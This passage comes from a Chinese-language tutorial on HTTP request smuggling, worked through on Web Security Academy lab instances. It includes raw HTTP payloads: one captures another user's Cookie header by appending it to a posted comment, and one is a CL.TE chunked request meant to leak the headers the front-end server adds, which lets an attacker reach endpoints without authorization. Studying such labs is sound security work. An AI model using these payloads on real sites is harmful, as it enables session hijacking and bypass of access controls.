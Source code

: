 因为Pipeline的存在被放置在了缓存区。如果这时另一个正常用户也发来了一段评论，那么这个请求会被拼接到滞留在缓存区的请求后面构成一个新的请求：

```php
POST /post/comment HTTP/1.1
Host: ac991f4d1ef4a5e7c0bd1cc8006c0014.web-security-academy.net
Cookie: session=plmft6w5VTTDEI0J15a06sNdaQUcPNPO
Content-Length: 700
Content-Type: application/x-www-form-urlencoded

csrf=vMqN9Cq1aip2DYMTyFEokIA5IkONc7oM&postId=6&name=a&email=1%40qq.com&website=http%3A%2F%2F1.com&comment=springPOST /post/comment HTTP/1.1
Host: ac991f4d1ef4a5e7c0bd1cc8006c0014.web-security-academy.net
Cookie: session=ashAwdweas.......
```

这时候我们就发现**请求头被拼接到了comment的后面然后被当作comment返回**，这样我们就可能通过获取到其他用户的Cookie。

在lab中我们要不断第二个CL的大小，调整至合适大小才有可能正常泄露出来；我从700开始服务器报500，但不知道是哪里出了问题响应一直超时：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-f6f749636e3bcef8a851077b1d210e9f6105451c.png)

不过原理还是很好理解，大家可以自己去试一试，有点玄学。

2.泄露请求头重写请求实现未授权访问
------------------

前面我们提到，前端服务器的作用之一就是过滤外界用户对于未授权接口的访问，一般前端用户收到一段请求后，会在包里添加一些请求头例如：

- 用户的`session`等会话ID。
- XFF头用于显示用户IP，当然一般不会是`X-Forwarded-For`因为很容易被猜到。
- 用户指纹信息、`token`等。

**如果我们能泄露这些前端服务器向后端服务器中继发送的请求中的请求头，那么我们就可以伪造出前端服务器的请求包来完成对敏感接口的未授权访问，实现一些恶意操作。**

那么问题来了，我们如何能获取到前端服务器发送到后端服务器的请求头呢？其实不难想，如果服务器能对我们输入的POST参数，即body部分响应输出，然后我们构造一个普通的请求放在body后面，前端服务器接收到之后就会对我们添加的请求进行重写，如果我们的指定`Content-Length`为较大的值就会把前端服务器重写时添加的重要字段给泄露出来拼接到body后面，随后后端服务器会将其与响应一并返回。

这么讲可能还是有些抽象，我们拿lab来举例：

<https://acbc1f4d1e121980c02b64d600c40022.web-security-academy.net/>

构造出如下请求包：

```php
POST / HTTP/1.1
Host: acbc1f4d1e121980c02b64d600c40022.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Cookie: session=RcsAYo8SoCQx0bwXn0oG0G1RkLNPHuz4
Content-Type: application/x-www-form-urlencoded
Content-Length: 77
Transfer-Encoding:chunked

0

POST / HTTP/1.1
Content-Length:70
Connection:close

search=111

```
